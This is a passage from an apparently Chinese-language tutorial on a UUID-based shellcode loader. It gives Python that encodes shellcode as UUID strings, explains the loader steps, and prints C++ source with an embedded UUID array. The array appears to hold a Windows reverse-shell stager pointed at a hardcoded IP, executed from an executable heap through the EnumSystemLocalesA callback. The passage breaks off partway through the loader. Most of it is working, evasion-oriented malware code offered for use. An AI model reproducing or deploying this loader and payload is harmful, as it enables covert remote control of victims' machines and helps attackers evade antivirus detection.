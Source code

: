 ```python

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```



## uuid写入shellcode

以下代码的主要目的是通过UUID加载并执行shellcode。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组`uuids`。
2. 创建一个具有执行权限的堆`hc`。
3. 在堆上分配一块可执行内存`buffer`。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在`buffer_backup`地址。
6. 使用`EnumSystemLocalesA`函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚举到的区域设置信息的回调函数的地址传递给`EnumSystemLocalesA`函数实现的。
7. 关闭内存句柄。

```cpp
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
using namespace std;

//用于存放shellcode转的uuid的数组
const char* uuids[] = { "008fe8fc-0000-3160-d264-8b523089e58b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c74975ef52","10528b57-428b-013c-d08b-407885c0744c","8b50d001-2058-488b-1801-d385c9743c31","348b49ff-018b-31d6-c0c1-cf0dac01c738","03f475e0-f87d-7d3b-2475-e0588b582401","0c8b66d3-8b4b-1c58-01d3-8b048b01d089","5b242444-615b-5a59-51ff-e0585f5a8b12","ffff80e9-5dff-3368-3200-00687773325f","774c6854-0726-e889-ffd0-b89001000029","685054c4-8029-006b-ffd5-6a0a68c0a82f","0002689b-5c11-e689-5050-505040504050","df0fea68-ffe0-97d5-6a10-56576899a574","85d5ff61-74c0-ff0a-4e08-75ece8670000","6a006a00-5604-6857-02d9-c85fffd583f8","8b367e00-6a36-6840-0010-0000566a0068","e553a458-d5ff-5393-6a00-5653576802d9","d5ff5fc8-f883-7d00-2858-68004000006a","0b685000-0f2f-ff30-d557-68756e4d61ff","ff5e5ed5-240c-850f-70ff-ffffe99bffff","29c301ff-75c6-c3c1-bbf0-b5a2566a0053","9090d5ff-9090-9090-9090-909090909090" };


int UuidLoader() {
    
    // 创建一个具有执行权限的堆
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);

    // 在堆上分配一块可执行内存
    void* buffer = HeapAlloc(hc, 0, 0x100000);

    // 检查内存分配是否成功，如果失败则输出错误信息并返回0
    if (buffer == NULL) {
        cout << "内存申请失败！" << endl;
        return 0;
    }

```